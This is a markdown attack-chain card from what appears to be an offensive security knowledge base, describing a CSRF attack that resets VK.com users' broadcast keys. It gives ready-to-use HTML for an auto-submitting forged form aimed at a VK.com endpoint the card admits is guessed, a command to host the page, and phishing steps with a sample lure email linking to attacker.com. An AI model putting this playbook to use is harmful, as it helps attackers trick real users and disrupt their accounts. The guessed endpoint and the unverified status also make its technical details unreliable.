

---
tags:
  - csrf
  - web
  - broadcast-key
  - vk.com
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/CSRF-Exploitation-for-Broadcast-Key-Reset]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:35.900Z'
description: >-
  A Cross-Site Request Forgery attack targeting the broadcast key reset
  functionality on VK.com, allowing an attacker to force a logged-in user to
  reset their key without consent via a malicious webpage.
skill_level: beginner
impact_level: low
id: 1524503e-348e-4ff6-9f9c-05acef667410
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation to Unauthorized Reset of Broadcast Key on VK.com

Multi-stage attack chain demonstrating a complete CSRF workflow against VK.com's broadcast key reset endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard web technologies like HTML forms)

### Target Environment

- Web platform (VK.com)
- Victim must be logged into VK.com
- Attacker needs to host a malicious webpage (e.g., on a personal server or free hosting)

### Initial Access Requirements

- No credentials required for attacker
- Victim must visit attacker's malicious page while authenticated to VK.com
- Network access to VK.com's broadcast key reset endpoint

## Detailed Attack Procedures

### Step 1: Craft and Host Malicious Webpage
procedure: [[procedures/CSRF-Exploitation-for-Broadcast-Key-Reset]]

**Objective**: Create an HTML page that automatically submits a forged request to VK.com's broadcast key reset endpoint, exploiting the lack of CSRF token validation.

**Instructions**: Develop a simple HTML form that posts to the vulnerable endpoint (inferred as something like https://vk.com/broadcast/reset_key based on typical structures; exact URL from report reconnaissance). Host it on a server accessible to the victim.

Example HTML for the malicious page:

```html
<!DOCTYPE html>
<html>
<body>
    <form action="https://vk.com/broadcast/reset_key" method="POST" id="csrf-form">
        <!-- Hidden fields if any parameters needed; for reset, may be empty -->
        <input type="submit" value="Click here to win!" style="display:none;">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
    <p>Loading fun content...</p>
</body>
</html>
```

Save as index.html and host using a simple server like Python's http.server:

```bash
python3 -m http.server 8000
```

**Expected Output**: A webpage that auto-submits the CSRF request upon load.

**Success Indicators**:
- Page loads and form submits automatically
- No errors in browser console related to CORS (CSRF bypasses this)

### Step 2: Induce Victim Interaction
procedure: [[procedures/CSRF-Exploitation-for-Broadcast-Key-Reset]]

**Objective**: Trick the logged-in VK.com user into visiting the malicious page, triggering the unauthorized key reset and disrupting their broadcasting features.

**Instructions**: Distribute the malicious URL via phishing email, social engineering, or embedding in a forum post. For example, send an email: "Check out this cool VK update: http://attacker.com/malicious.html". When the victim clicks and loads the page while logged in, the browser sends the forged request using their session cookies.

Monitor for success by checking if the victim's broadcast key is reset (e.g., via follow-up social engineering or if they report issues).

**Expected Output**: Victim's browser makes a POST request to VK.com's reset endpoint, resetting the key without user intent.

**Success Indicators**:
- Victim reports broadcasting disruption
- Attacker confirmation via secondary channel (if applicable)
- No server-side errors; request succeeds due to missing CSRF protection

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to perform unauthorized actions on behalf of the victim
2. Disrupted VK.com broadcasting features with minimal effort
3. Demonstrated low-severity impact on user experience without data loss

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
